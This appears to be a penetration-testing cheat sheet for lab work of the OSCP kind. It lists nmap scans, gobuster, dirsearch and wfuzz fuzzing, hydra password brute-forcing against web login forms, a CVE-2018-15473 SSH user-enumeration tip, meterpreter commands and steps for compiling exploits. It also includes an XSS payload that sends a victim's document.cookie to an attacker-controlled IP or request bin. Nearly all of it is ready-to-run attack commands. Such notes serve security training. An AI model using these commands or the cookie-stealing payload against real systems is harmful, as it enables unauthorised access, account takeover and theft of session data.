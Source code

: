 # Flow
----------

### Port Scans

```bash
nmap -sC -sV -v --open -oN nmap_default.out $IP
nmap -sC -sV -v --open -Pn -oN nmap_default.out $IP

nmap -p- -v --open -oN nmap_full.out $IP
nmap -p- -v -Pn --open -oN nmap_full.out $IP
```

```bash
rustscan -a $IP
```

UDP
```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.11.1.111

sudo nmap -sU -T4 -v -oN nmap_udp 10.11.1.111 --top-ports 20
```

Proxychains
```bash
proxychains nmap -sT -Pn -p 21,22,80,111 -sC -sV -v 10.1.1.27 --open

sudo proxychains nmap --top-ports=20 -sT -Pn -v 10.1.1.95 --open 
```

Script Scans
```bash
sudo nmap --script vuln -p 443,80 10.10.10.10

sudo nmap --script 'smb-vuln*' -p 445 -v 192.168.68.40

sudo nmap -n -Pn -sU -v -p69 -sV --script tftp-enum 10.11.1.111

nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p 5800 10.11.1.227 -v
```

----------------

### Directory Fuzzing 
- check out for .git directories 
- cgi-bin directories
- files
- try different wordlists

```bash
gobuster dir -u http://$IP/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,bak,txt
```

```bash
gobuster dir -u http://:$IP/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,bak,txt
```

```bash
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.191/
```

```bash
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

```bash
/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
```

```bash
/opt/SecLists/Discovery/Web-Content/common.txt
```

```bash
/opt/SecLists/Discovery/Web-Content/raft-large-files.txt
```

```bash
/opt/SecLists/Discovery/Web-Content/raft-large-words.txt
```

---------------


### Subdomain FUZZ
```bash
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hc 404 -c -u http://backdoor.htb -H "Host:FUZZ.backdoor.htb" 
```

### Tid bits
- Remember **SEARCHSPLOIT** and **METASPLOIT** for version exploits!!!!!

- Run **NIKTO** (to get cgi-bin stuff)

- generate wordlists using cewl:
```bash
cewl http://target.htb/
```


- If there is ssh with OpenSSH < 7.7, use CVE-2018-15473 
 https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py
 
- Brute forcing passwords on web pages using hydra:
```bash

hydra -l admin -P /opt/rockyou.txt X.X.X.X http-post-form "/URL/Login:User=^USER&password=^PASS:F=<String indicating attempt has failed>" -I
```

- get cookie: ```
```bash
<script>document.write("<img src='http://<IP> or <request bin>'"+document.cookie+"');</script>
```

- download files recursively over ftp:
```bash
wget -r ftp://user:pass@serv
```

- run a command in meterpreter:
```bash
execute -i -H -f "cmd"
```

- nginx -> almost no php

https://github.com/brianlam38/OSCP-2022/blob/main/cheatsheet-main.md#Initial-Recon-1

https://therealunicornsecurity.github.io/OSCP/#tldr-



### Compiling exploits

32bit linux 
```bash
gcc -m32 -march=i686 code.c -o exp -static
```

Cross compile exploit for windows
```bash
# dpkg --add-architecture i386
# install mingw32/64
# 32 bits:
i686-w64-mingw32-g++-win32 exp.cpp -static -o exp
# 64 bits:
x86_64-w64-mingw32-g++ exp.cpp -static -o exp
```

C to shared library (so)
```bash
gcc -o exploit.so -shared exploit.c -fPIC 
```
